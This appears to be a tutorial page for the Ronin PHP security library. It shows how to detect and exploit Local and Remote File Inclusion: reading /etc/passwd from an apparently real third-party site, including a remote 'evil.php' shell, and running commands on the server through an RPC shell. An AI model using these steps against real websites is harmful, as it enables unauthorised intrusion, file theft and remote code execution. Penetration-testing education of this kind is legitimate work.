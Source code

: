 ```yaml
---
layout: default
title: Using Ronin PHP
---
```


Using Ronin PHP
===============

The [Ronin PHP](http://ronin.rubyforge.org/docs/ronin-php/) library provides
support for PHP related security tasks, such as Local File Inclusion (LFI)
or Remote File Inclusion (RFI).

Before we can use this library in the Ronin Console, we must first install
the library. To install the Ronin Web library used in this tutorial, simply
run the following command:

    $ sudo gem install ronin-php

To start the Ronin Console, with ronin-php pre-loaded, simply run the
`ronin-php` command:

    $ ronin-php

Local File Inclusion (LFI)
--------------------------

Test a URL for LFI:

    url = URI('http://www.e-builds.com/?page=Portfolio')
    url.has_lfi?
    # => true

Obtain a [Ronin::PHP::LFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI.html)
object which can be used to access files or finger-print the web server:

    lfi = url.first_lfi

Request a local file as a `String`:

    lfi.get('/etc/passwd')

Request a local file as a [Ronin::PHP::LFI::File](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/LFI/File.html)
object:

    lfi.include('/etc/passwd')
    # => #<Ronin::PHP::LFI::File:/etc/passwd>

Remote File Inclusion (RFI)
---------------------------

Test a URL for RFI:

    url = URL('http://www.example.com/page.php?layout=default')
    url.has_rfi?
    # => true

Obtain a [Ronin::PHP::RFI](http://ronin.rubyforge.org/docs/ronin-php/Ronin/PHP/RFI.html)
object which can be used to include other PHP files:

    rfi = url.first_rfi

Including a remote PHP file:

    rfi.include('http://www.shells4you.com/evil.php')

Using the Ronin PHP Remote Procedure Call (RPC) server:

    client = rfi.rpc

Using the PHP Console service to call PHP functions:

    php = client.console

    php.phpversion
    # => "4.3.10"

    php.php_uname('-m')
    # => "i686"

Using the PHP Shell service for quick command execution:

    shell = client.shell

    shell.cwd
    # => "/var/www/site/\n"

    shell.cd '..'
    # => ""

    shell.exec('date -u')
    # => "Thu Aug 21 10:29:38 UTC 2008\n"

    shell.system('ps')
    #    PID TTY          TIME CMD
    #  27042 pts/8    00:00:00 bash
    #  27841 pts/8    00:00:00 ps
    # => nil

Using the Interactive Shell for the PHP-RPC Console service:

    php.interact
    # >> phpversion();
    # => "4.3.0"
    # >> explode('|', 'one|two|three');
    # => Array(
    #   "one",
    #   "two",
    #   "three"
    # )
    # >> exit
    # => nil

Using the Interactive Shell for the PHP-RPC Shell service:

    shell.interact
    # $ pwd
    # /var/www/site/
    # $ cd ..
    # $ ls -la
    # ...
    # $ exit
    # => nil

